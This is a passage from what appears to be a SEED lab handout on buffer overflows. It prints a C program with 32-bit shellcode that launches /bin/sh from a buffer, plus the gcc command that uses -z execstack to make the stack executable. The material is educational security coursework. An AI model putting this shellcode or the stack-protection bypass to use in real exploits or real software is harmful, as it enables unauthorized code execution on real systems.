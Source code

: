 The shellcode that we use is just the assembly version of the above program. The following
program shows how to launch a shell by executing a shellcode stored in a buffer. Please
compile and run the following code, and see whether a shell is invoked. You can download
the program from the website. If you are interested in writing your own shellcode, 
we have a separate SEED lab for that purpose. 


\begin{lstlisting}[language=C]
/* call_shellcode.c: You can get it from the lab's website */
/* Launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
  "\x31\xc0"         /* Line 1:  xor  eax, eax      */
  "\x50"             /* Line 2:  push eax           */
  "\x68""//sh"       /* Line 3:  push "//sh"        */
  "\x68""/bin"       /* Line 4:  push "//sh"        */
  "\x89\xe3"         /* Line 5:  mov  ebx, esp      */
  "\x50"             /* Line 6:  push eax           */
  "\x53"             /* Line 7:  push ebx           */
  "\x89\xe1"         /* Line 8:  mov  ecx, esp      */
  "\x31\xd2"         /* Line 9:  xor  edx, edx      */
  "\x31\xc0"         /* Line 10: xor  eax, eax      */
  "\xb0\x0b"         /* Line 11: mov  al,  0x0b     */
  "\xcd\x80"         /* Line 12: int  0x80          */
;

int main(int argc, char **argv)
{
   char buf[sizeof(shellcode)];
   strcpy(buf, shellcode);
   ((void(*)( ))buf)( );
} 
\end{lstlisting}
 

Compile the code above using the following \texttt{gcc} command (with the 
\texttt{-m32} flag for 32-bit binary). Run the program
and describe your observations. 
Please do not forget to use the {\tt execstack} option, which allows 
code to be executed from the stack; without this option, the program will fail.


\begin{lstlisting}
$ gcc -m32 -z execstack -o call_shellcode call_shellcode.c
\end{lstlisting}

